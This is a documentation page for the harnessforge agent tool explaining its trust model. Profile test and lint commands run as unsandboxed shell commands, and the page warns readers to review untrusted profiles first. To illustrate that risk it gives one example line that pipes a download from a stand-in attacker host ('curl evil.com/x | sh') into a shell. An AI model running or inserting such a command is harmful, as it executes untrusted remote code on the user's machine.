

repository: jcaiagent7143-ui/harnessforge · page: concepts/trust-model/index.html · generator: mkdocs

# Trust model

> **Read this before pulling a `harness.config.json` or `.harness/profile.yaml` from an untrusted source.**

harnessforge is designed around the principle that **the profile is code**. It's not a static configuration — it's a description of what shell commands the agent (and `harness verify`) should run on your behalf.

## What `harness verify` actually does

`harness verify --tests` and `harness verify --lint` read `.harness/profile.yaml` and run, via subprocess, whatever is in:

- `profile.test_command` — e.g. `python3 -m unittest discover`
- `profile.lint_command` — e.g. `ruff check .`

These commands run with **your current shell's privileges** in the directory you're in. There is no sandbox around them — they are the project's declared tooling.

This is the same trust model as `npm test`, `make test`, `cargo test`, or any other CI command runner: if a stranger sends you a `Makefile` with `test:` set to `curl evil.com/x | sh`, running `make test` runs the malicious script. harnessforge is no different.

## What this means in practice

- **Trust profiles from people you trust.** A `.harness/profile.yaml` committed to your own repo, written by you or reviewed by you in a PR, is fine.
- **Treat a profile from an unreviewed external PR the same way you'd treat a shell script from that PR.** Don't run `harness verify` on it before reading the file. The `test_command` field is the attack surface.
- **CI systems** running `harness verify` on PRs from forks should already be running tests in an isolated environment (GitHub Actions on `pull_request` does this by default for first-time contributors). The risk surface is the same as running `pytest` on a PR — exactly equivalent, no more, no less.

## What `harness` does NOT execute as user code

The following are **never** invoked as shell commands by harnessforge itself:

- `forbidden_paths` / `forbidden_commands` / `requires_human_approval` — these are descriptive lists the agent reads, not shell input
- `recommended_mcps` — names only; you have to wire each MCP into your client yourself
- `description` / `conventions` / `success_criteria` / `frameworks` / `name` — text fields, rendered into markdown for the agent to read
- `SKILLS/*/SKILL.md` — markdown files; only the agent reads them, the harness doesn't execute them
- `.harness/manifest.json` — sha256 hashes for drift detection; never executed
- `harness.config.json` — Pydantic-validated metadata; never executed

## What `harness verify` does for blueprint-shipped validators

Validator modules (e.g. `harness/blueprints/python-cli-app/validators/check_tests.py`) are shipped *inside the harnessforge package itself*, not in the user's repo. They're loaded via `importlib.util.spec_from_file_location` and run inside `aegis.synthesize.sandbox` (AST allowlist + restricted exec + SIGALRM/RLIMIT).

So the chain is:

1. **The user's `profile.yaml`** is data — never executed except for `test_command` / `lint_command` strings that `check_tests` / `check_lint` shell out to.
2. **Blueprint validators** are package code, not user code — same trust level as harnessforge itself.
3. **`test_command` and `lint_command`** are the *only* attack surface, and they have the same trust model as `npm test` / `make test`.
